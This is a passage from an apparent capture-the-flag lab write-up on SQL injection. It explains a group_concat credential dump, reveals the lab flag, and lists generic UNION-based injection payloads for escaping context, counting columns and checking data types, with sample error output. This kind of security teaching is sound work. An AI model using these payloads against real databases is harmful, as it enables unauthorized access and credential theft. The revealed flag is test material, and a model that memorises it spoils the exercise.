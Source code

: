 In the statement above, `group_concat` method returns all the rows into one string to make it easier to read. The `':'` is used to split username and password from each other. The HTML tag `<br>` is used to display each result on a separate line instead of being comma separated.

![User Data Dump](../../assets/images/thm/sqli/7-datadump.png)
    
We can now confirm martin's password to retrieve the flag: `THM{SQL_INJECTION_3840}`

Let's summarize the steps above into something more general.

1. Verify SQLi vulnerability via entry point detection by escaping the current context.
   ```console
    [Nothing]
    '
    "
    `
    ')
    ")
    `)
    '))
    "))
    `))
   ```
2. Determine the number of columns in the table by using `Order/Group by` or `UNION SELECT` (continue to increment or add additional `null` values until the query is correct).
   ```sql
   ' ORDER BY 1--    
   ' ORDER BY 2--    
   ' ORDER BY 3--    
   ' ORDER BY 4--    #Error: The ORDER BY position number 3 is out of range of the number of items in the select list.
   ```
   OR

   ```sql
   ' UNION SELECT null--           #Error: All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
   ' UNION SELECT null,null--      #Error: All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
   ' UNION SELECT null,null,null-- #Working
   ```
3. Verify column data type to allow retrieval of the results from an injected query. If the data type of a column is not compatible with string data, the injected query will cause a database error.
   ```sql
   ' UNION SELECT 'a',null,null--   #Error: Conversion failed when converting the varchar value 'a' to data type int.
   ' UNION SELECT null,'a',null--   #Error: Conversion failed when converting the varchar value 'a' to data type int.
   ' UNION SELECT null,null,'a'--   #Working
   ```